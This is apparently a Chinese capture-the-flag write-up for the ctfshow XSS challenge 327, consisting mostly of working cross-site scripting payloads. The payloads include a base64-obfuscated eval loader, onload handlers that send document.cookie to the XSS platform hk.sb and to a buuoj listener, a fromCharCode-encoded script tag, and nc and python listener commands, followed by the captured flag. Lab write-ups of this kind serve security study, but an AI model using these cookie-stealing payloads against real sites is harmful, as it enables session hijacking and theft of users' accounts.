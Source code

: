 # ctfshow-xss327



##### 参考链接

其他大佬链接

feng  https://ego00.blog.csdn.net/article/details/114079028

Y4	 https://blog.csdn.net/solitudi/article/details/111568030?spm=1001.2014.3001.5501

bit   https://www.xl-bit.cn/index.php/archives/120/



```
请以小明的身份，给身在美国的表哥老明写一封信，介绍中国流行的网络梗，并邀请他回来一起去ctfshow玩。

发件人
请输入发件人
收件人
请输入收件人
我的天气
表哥回来时带的东西
  
暗网发送
信的内容
请输入内容
 
```

```html
既然前面是反射型xss  其实不管它是反射还是存储 
主要还是需要我们利用xss平台 获取cookie


xss平台
https://ww.rs/
https://hk.sb/


输入框输入
<Img sRC=//hk.sb/UfVb/test.jpg>

    
<input	onfocus=eval(atob(this.id))	id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vaGsuc2IveTd4eCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs=	autofocus>

后面用了buu的公开靶机当个nc监听的服务器
nc -lvp 1104
正常的vps那边是需要nc的，但是nc好像不能持续接收，但是方法其实很多，可以重复起nc，或者我这边就临时拿python起一个临时的服务器，接收一下get参数：
python -m http.server 1104
<svg/onload="window.open('https://hk.sb/y7xx'+document.cookie)">
<body/onload="window.open('https://hk.sb/y7xx'+document.cookie)">

<svg/onload="window.open('http://node4.buuoj.cn:1104/'+document.cookie)">
    <svg	onload="window.open('http://3e8366a0-4e63-4eec-963d-6fa92cad126e.node4.buuoj.cn:1104/'+document.cookie)">
        
 
        
发件人 <sCRiPt/SrC=//hk.sb/y7xx>
收件人 admin
信的内容  <img src="" onerror="document.write(String.fromCharCode(60,115,67,82,105,80,116,32,115,82,67,61,47,47,104,107,46,115,98,47,121,55,120,120,62,60,47,115,67,114,73,112,84,62))">


ctfshow{958cf2f8-d9fd-4bb8-8af2-ed0281291771}
```

